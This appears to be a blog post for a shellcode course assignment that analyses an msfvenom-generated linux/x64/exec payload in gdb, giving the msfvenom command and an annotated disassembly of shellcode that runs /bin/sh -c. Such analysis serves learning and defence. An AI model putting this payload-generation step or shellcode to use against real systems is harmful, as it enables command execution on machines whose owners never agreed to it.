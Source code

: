 ```yaml
---
layout: post
title:  SLAE64 Assignment 5 - msfvenom shellcode analysis with gdb 
excerpt: analysis of code generated by msfvenom for payloads linux/x64/exec linux/x64/shell/reverse_tcp and linux/x64/shell_reverse_tcp
---
```


because the assignment asks to analyze using gdb, i will not use objdump, ndisasm or any other tool  
because i'm using gdb+gef 8.3, i can use the command "starti" that start the executable and interrupt at the very first call and analyze the code.


## exec
payload generated with: msfvenom -p linux/x64/exec -f elf CMD=whoami > 05-exec

the journey starts with a:
    gdb ./05-exec
    starti

i can now run vmmap, grep, and x/ to analyze the program   
vmmap for example show that 0x400000 is rwx  
and x/20i 0x400078 (where 0x400078 is starting point) shows us what looks like the main letting us to analyze without actually running it:

    gef➤  x/20i 0x400078
    ; this could be the syscall id, 0x3b is sys_execve
    => 0x400078:    push   0x3b
    ; and it's placed on rax
    0x40007a:    pop    rax
    ; basing on my former analysis, cdq will also zero edx. not useful to me in 64bit
    0x40007b:    cdq
    ; place in rbx the string /bin/sh (with a null!)
    0x40007c:    movabs rbx,0x68732f6e69622f
    ; push it on the stack
    0x400086:    push   rbx
    ; and put a pointer to /bin/sh in rdi. this is required for execve syscall
    0x400087:    mov    rdi,rsp
    ; rsi will hold arguments, therefore the code pushes -c to have
    ; executed: /bin/sh -c
    0x40008a:    push   0x632d
    0x40008f:    mov    rsi,rsp
    0x400092:    push   rdx
    ; i saw this call also on 32bit release, and i loved it. this fools
    ; linear disassembler. let's skip everything and do a x/20i 0x40009f
    0x400093:    call   0x40009f
    0x400098:    ja     0x400102
    0x40009a:    outs   dx,DWORD PTR ds:[rsi]
    0x40009b:    (bad)
    0x40009c:    ins    DWORD PTR es:[rdi],dx
    0x40009d:    imul   eax,DWORD PTR [rax],0x89485756
    0x4000a3:    out    0xf,al
    0x4000a5:    add    eax,0x0
    0x4000aa:    add    BYTE PTR [rax],al
    0x4000ac:    add    BYTE PTR [rax],al
    0x4000ae:    add    BYTE PTR [rax],al
